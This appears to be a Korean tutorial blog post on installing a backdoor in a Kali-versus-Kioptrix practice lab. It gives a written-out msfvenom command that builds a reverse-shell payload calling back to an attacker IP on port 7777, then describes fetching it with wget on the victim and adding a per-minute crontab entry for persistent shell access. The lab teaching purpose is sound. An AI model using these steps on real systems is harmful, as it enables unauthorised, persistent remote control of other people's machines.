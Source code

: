 ```yaml
---
layout: post
title: '[해킹 기초] 15. Back door'
date: '2023-01-09 11:59:10 +0900'
description: '15. 백도어(Back door)'
categories: [HACKING,HACKING - Part.2]
image: /assets/img/1/hacking.png
tags: [hacking]
toc: false
---
```

<a text-size="1px" target="_blank" href="https://icons8.com/icon/5503/hacking">Hacking</a> icon by <a target="_blank" href="https://icons8.com">Icons8</a>



### <b>■ 백도어(Back door)란?</b>
: 백도어(Backdoor)는 시스템에 접근하기 위해 정상적인 인증 절차를 무효화하는 악성 코드의 유형으로, 컴퓨터의 시스템이나 네트워크, 또는 응용 프로그램의 일반적인 보안 조치를 우회해 접근할 수 있는 방식을 말한다. 쉽게 말해서 해킹하고 나서 다음에 쉽게 들어오기 위해 조그만 문을 열어두는 것이다. <br>
>출처:
inforad

### <b>■ 백도어(Back door) 실습</b>
- [실습 환경]
    - Virtual Box(Kali Linux) - 공격자
    - Kioprix_Level 1 - 공격대상

- [공격 순서]
    - [reverse shell]
    1. 피해자 PC 에서 1분마다 특정 port(공격자)에 접속하게 한다.
    2. 공격자는 필요한 때 특정 port를 열어 피해자 PC가 특정 port에 들어오게 한다.
    3. 피해자 PC가 특정 port를 접속하면 공격자는 피해자 shell을 획득할 수 있다.

- [공격 목표]
    - Back door 설치

<hr>
<img src="/assets/img/hacking/part2-9/1.png" alt="표사진"><br>
백도어 파일을 만들기 위해 msfvenom을 이용할 것이다. 다음과 같은 명령어를 통해 악성 스크립트를 만들자.<br>
msfvenom -p linux/x86/shell_reverse_tcp LHOST=[공격자 IP] LPORT=7777 -f elf > backdoor

back door 악성스크립트를 만들었으면 피해자 PC에서 이 파일을 받아야 된다. 이전 게시글에서 사용한 방법인 wget 명령어를 이용해서 피해자 PC에서 backdoor파일을 받을 것이다. wget 명령어를 사용하기 위해서는 80번 port가 열려 있어야 하므로 service apache2 start 명령어를 통해 열어준 다음 cp 명령어를 이용해 backdoor 파일을 /var/www/html 경로로 옮긴다. 옮기고 나서 chmod 명령을 이용해 모든 권한을 준다.
<hr>
<img src="/assets/img/hacking/part2-9/2.png" alt="표사진"><br>
기존에 했던 공격 방식으로 피해자 PC shell을 획득한 다음 /root 경로로 가서 wget을 이용해 위에서 올려둔 backdoor 파일을 가져온다. 가져오고나서 chmod를 이용해 777권한을 준다.
<hr>
<img src="/assets/img/hacking/part2-9/3.png" alt="표사진"><br>
권한을 주고 ls -al 명령어로 확인을 해보면 위와 같이 권한이 표시될 것이다.
<hr>
<img src="/assets/img/hacking/part2-9/4.png" alt="표사진"><br>
다시 공격자 PC에 가서 7777번 port 를 열어주자. 열어주는 이유는 피해자 PC가 이 port를 통해 들어올 것이기 때문이다.
<hr>
<img src="/assets/img/hacking/part2-9/5.png" alt="표사진"><br>
공격자 PC에서 7777번 port를 연 다음 피해자 PC에 가서 ./backdoor 명령을 입력해 보자.
<hr>
<img src="/assets/img/hacking/part2-9/6.png" alt="표사진"><br>
다시 공격자 PC를 확인해 보면 위와 같이 연결됐다고 나올 것이다. 그러면 피해자 PC shell을 획득한 것이다. 하지만 우리가 매번 이렇게 할 수 없으니깐 피해자 PC에서 일정하게 공격자 PC port로 접속하게 해두면 편할 것이다.
<hr>
<img src="/assets/img/hacking/part2-9/7.png" alt="표사진"><br>
crontab을 이용해서 1분마다 backdoor 명령을 실행하도록 설정했다. 이 말인 즉슨 피해자는 1분마다 backdoor프로그램을 실행한다. 따라서 공격자가 7777번 포트만 열면 언제든지 피해자 PC에 접속할 수 있다는 의미이다. crontab 설정은 -l 옵션으로 확인할 수 있다. 여기서 * * * * * 의 의미는 1분마다 실행하라는 의미이다.
<hr>
<img src="/assets/img/hacking/part2-9/8.png" alt="표사진"><br>
위에서 말했듯이 공격자는 7777번 port를 열고 최대 1분을 기다리면 피해자 PC의 shell을 마음대로 원할 때 획득할 수 있다.
<hr>